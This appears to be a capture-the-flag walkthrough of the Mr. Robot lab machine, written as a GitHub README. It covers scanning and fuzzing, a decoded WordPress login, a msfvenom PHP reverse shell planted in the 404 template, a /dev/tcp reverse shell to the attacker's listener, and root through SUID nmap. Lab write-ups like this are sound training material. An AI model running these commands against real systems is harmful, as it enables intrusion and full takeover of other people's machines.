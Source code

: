 <h1 align="center"><picture><img src = "https://github.com/user-attachments/assets/cb1c3fb3-2973-4fcd-b957-9ffec2337fb1"></picture>
<h1 align="center"><picture><img src = "https://github.com/user-attachments/assets/5223b9fb-f5d2-4f5f-b961-af45d26dec7e"></picture></h1>

```bash
ping -c 1 172.17.0.2
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allports
nmap -sCV -p22,80 172.17.0.2 -oN targeted
```
![image](https://github.com/user-attachments/assets/6509eeef-95c5-43e2-8b41-9294a4206893)

## **PORT 80**
![image](https://github.com/user-attachments/assets/4d0ea598-172c-4067-b1d5-8965d718abcb)

## **PORT 443**
![image](https://github.com/user-attachments/assets/69575dea-cc05-4273-bb14-422b2f5b3a88)

## **Identifying the technologies, servers, and applications that make up the web**
```bash
whatweb http://10.10.223.160
```
![image](https://github.com/user-attachments/assets/f44e3359-cc74-4743-b2c9-c5f3c9e20e4b)
We did not find anything that could help us

## **Fuzzing Web**
```bash
gobuster dir -u http://10.10.223.160/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh,html,js
```
![image](https://github.com/user-attachments/assets/94c3631c-3f7b-4928-8f52-f9dfbcdd46a9)

![image](https://github.com/user-attachments/assets/3ef2f037-22b6-4065-8eea-bfa7f011dcd9)

![image](https://github.com/user-attachments/assets/95c7db88-bd00-45b9-8c20-009bb548f3b4)

![image](https://github.com/user-attachments/assets/572806d5-12db-440e-88a4-16a6e1785266)

![image](https://github.com/user-attachments/assets/090c0dae-5803-4d51-a495-3a4d453d7dd8)
![image](https://github.com/user-attachments/assets/959d45f4-1b81-484e-975c-ae19f5b99582)<br>
![image](https://github.com/user-attachments/assets/c17c5f8b-fb24-4b15-9f33-20ce7e32b5fb)

## **We found several hidden pages, but in one we found a hash64**
```bash
echo 'ZWxsaW90OkVSMjgtMDY1Mgo=' | base64 -d
```
![image](https://github.com/user-attachments/assets/e5b4b107-1390-43e1-b5d5-653e80accca0)<br>
elliot:ER28-0652<br>
![image](https://github.com/user-attachments/assets/6af5ebc6-25f7-439c-9cd1-0b48cd970cfe)

## **We are going to modify a part of the web in this case the error 404 that when entering a site that does not exist, a code that we will create will be executed and it will return a shell that we will intercept later.**
![image](https://github.com/user-attachments/assets/4bf0c610-9e79-4be4-8b80-c4b3e426c666)

## **Creating the malicious code**
```bash
msfvenom -p php/reverse_php LHOST=10.21.118.81 LPORT=443 -f raw > pwned.php
```
![image](https://github.com/user-attachments/assets/ac8a757b-69b4-47b9-828e-487ea520472a)

## **the code created inside the pwned.php file will be copied into the error 404 page**
![image](https://github.com/user-attachments/assets/045a6510-9a06-4f5a-95e3-0fdb756f7b8b)

## **we go into listening mode**
```bash
nc -nlvp 443
```
![image](https://github.com/user-attachments/assets/d9fac086-7c71-4b2f-9a82-da79777f6e87)<br>

## **we open a website that does not exist**
![image](https://github.com/user-attachments/assets/0160a91f-8439-4866-aff0-03daae79b264)

## **intercept and send the connection to another port in order to establish the connection.**
![image](https://github.com/user-attachments/assets/b4c10518-86b2-4d94-8bce-f5186cfe7066)

```bash
bash -c "sh -i >& /dev/tcp/10.21.118.81/444 0>&1"
```
![image](https://github.com/user-attachments/assets/8f90a8bd-4599-4582-99a8-6968ea941ccf)

## **we intercept the new connection on our port 444**
```bash
nc -nlvp 444
```
![image](https://github.com/user-attachments/assets/0a5e6e27-269b-44ea-a313-8ea4fa2bb47b)

## **once inside we do an investigation to find sensitive content and do a TTY treatment.**
```bash
python -c "import pty;pty.spawn('/bin/bash')"
```
![image](https://github.com/user-attachments/assets/1f703ba1-e294-4744-b456-e12e5701bbbc)

![image](https://github.com/user-attachments/assets/e55247dd-9190-4e58-afa8-6b7ce096c5cd)
robot:c3fcd3d76192e4007dfb496cca67e13b


![image](https://github.com/user-attachments/assets/b28ef771-3125-4e09-ae60-1889ff2224c3)
abcdefghijklmnopqrstuvwxyz

## **with the information found, we change the user.**
```bash
su robot
```
![image](https://github.com/user-attachments/assets/a500ac2d-0610-47b0-94e3-db17136edf65)

## **elevating privileges**
```bash
find / -perm -4000 2>/dev/null
```
![image](https://github.com/user-attachments/assets/096f03b1-c457-433a-be53-5191ba3a2ec7)

![image](https://github.com/user-attachments/assets/4f1dc63c-4f4c-47f3-898e-399dd036bb9a)

```bash
nmap --interactive
```
![image](https://github.com/user-attachments/assets/4ac2840d-ec78-4792-b939-1d5953ec795d)

```bash
!sh
```
![image](https://github.com/user-attachments/assets/50fcc1fd-b59d-496a-8ab0-a2dab7a681b1)








